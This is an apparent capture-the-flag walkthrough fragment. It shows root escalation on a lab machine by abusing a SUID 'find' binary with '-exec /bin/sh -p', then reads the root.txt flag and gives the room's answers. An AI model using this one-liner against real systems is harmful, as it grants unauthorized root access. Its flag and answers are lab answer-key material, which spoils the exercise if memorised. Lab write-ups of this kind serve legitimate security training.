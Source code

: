 Execute it and become the root:

```tsx
stoner@Vulnerable:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# id
uid=1000(stoner) gid=1000(stoner) euid=0(root) groups=1000(stoner),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
# whoami
root
```

**What did you exploit to get the privileged user?**

```
find
```

Get the flag in `root.txt`:

```tsx
# cd root
# ls
root.txt
# cat root.txt
It wasn't that hard, was it?
```

**root.txt?**

```tsx
It wasn't that hard, was it?
```
